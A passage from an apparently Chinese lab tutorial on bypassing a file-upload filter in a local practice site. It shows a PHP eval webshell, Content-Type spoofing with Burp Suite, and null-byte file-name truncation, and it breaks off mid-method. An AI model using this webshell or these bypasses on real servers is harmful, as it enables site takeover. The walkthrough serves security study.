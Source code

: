 


可以看到，服务器对上传文件的大小和类型做了限制。只允许上传小于 100000 字节并且文件type类型是image/jpeg或 image/png 的。



### **方法一：抓包修改文件的type**



因为这里过滤的是文件的上传类型，而不是文件的后缀名



所以我们直接上传 1.php 的一句话木马



```
<?php   @eval($_POST['xie']);  ?>
```




通过burpsuite[抓包](https://so.csdn.net/so/search?q=%E6%8A%93%E5%8C%85&spm=1001.2101.3001.7020)，默认type类型是application/octer-stream 



![](https://img-blog.csdn.net/20180930194739305?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



我们将其类型改为 image/jpeg ，然后go上传，可以看到，已经上传成功！



![](https://img-blog.csdn.net/20180930194855635?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



然后直接通过中国菜刀连接url： [http://127.0.0.1/hackable/uploads/1.php](http://127.0.0.1/hackable/uploads/1.php)  即可拿下网站Webshell 



### 方法二：00截断



在php<5.3.4中，处理字符串的函数认为0x00是终止符。那么我们可以利用 00截断 漏洞来上传我们的一句话木马。网站上传函数处理1.php%00.jpg时，首先后缀名是合法的jpg格式，可以上传，在保存文件时，使用burpsuite进行包拦截，找到上传的路径，把文件名改为 1.php\[空格\].jpg ，十六进制查看，空格的十六进制代码为20,将其修改为 00。后端在判断文件后缀名的时候遇到%00字符丢弃后面的jpg，文件后缀最终保存的后缀 名为 1.php。然后我们就可以用我们的菜刀连接了。



我们写一句话木马，并将其命名为 1.php.jpg  ，上传



```
<?php   @eval($_POST['xie']);  ?>
```




然后用 burpsuite 进行包拦截，转发到 repeater 模块
